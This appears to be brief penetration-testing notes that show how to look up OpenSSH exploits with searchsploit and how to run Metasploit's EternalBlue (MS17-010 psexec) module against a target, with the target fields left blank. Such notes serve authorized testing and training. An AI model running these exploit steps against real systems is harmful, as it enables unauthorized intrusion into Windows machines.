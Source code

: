 # Searchsploit

sudo apt install exploitdb -y
searchsploit openssh 7.2

# Metasploit

msfconsole
search exploit eternalblue
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 
set LHOST
check
exploit
